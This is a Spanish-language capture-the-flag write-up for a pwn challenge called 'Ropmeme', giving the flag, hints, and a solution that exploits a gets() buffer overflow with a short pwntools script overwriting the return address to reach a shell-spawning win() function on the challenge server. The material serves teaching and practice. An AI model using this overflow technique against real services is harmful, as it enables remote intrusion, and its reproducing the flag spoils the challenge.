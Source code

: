 # Nombre: `Ropmeme`
### Dificultad: `Extreme (🃏🃏🃏🃏🃏)`
### Categoría: `pwn`
### Autor: [Cae](https://c4ebt.github.io/)
### Flag: `DCCTF{pwn_c0ld3st_c4t3g0ry}`

### Descripción:
Recuperamos este binario de los tiempos en que Intro a la Progra se hacía en C y lo pusimos a correr en `104.237.138.109:5001`. Un montón de novatos programando en un lenguaje sin memory safety; que podría salir mal?

### Hint 1:
`man gets`

### Hint 2:
```
Alister: oye Cae el nombre de uno de tus desafíos tiene un typo
Cae: no es un typo ;)
```

### Solución:
Writeup muy superficial. Los conceptos que están por detrás del desafío son más profundos y las técnicas más complejas.
El source usa gets() para leer a un buffer de 64 bytes. gets() está deprecated, tal como indica su manpage: "Never use this function. Never use gets().  Because it is impossible to tell without knowing the data in advance how many characters gets() will read, and because gets() will continue to store characters past the end of the buffer, it is extremely dangerous to use.  It has been used to break computer security". Entonces, se tiene un buffer overflow en la call a gets. Usando la herramienta checksec se puede ver que el binario no tiene ni Canary ni PIE, solo NX, por lo que se debería poder explotar con un ROP. Haciendo un reversing mínimo se puede encontrar la función win(), que hace la syscall 0x3b (execve) con una shell como argumento, por lo que podemos llamarla para obtener una shell remota. Finalmente, el exploit usando pwntools queda así:

```python
from pwn import *

context.log_level = 'DEBUG'
#p = process("./ropmeme")
p = remote("ropmeme.dcctf.xyz", 80)

junk = "A"*72
payload = junk + p64(0x00401176)

p.sendline(payload)
p.interactive()
```
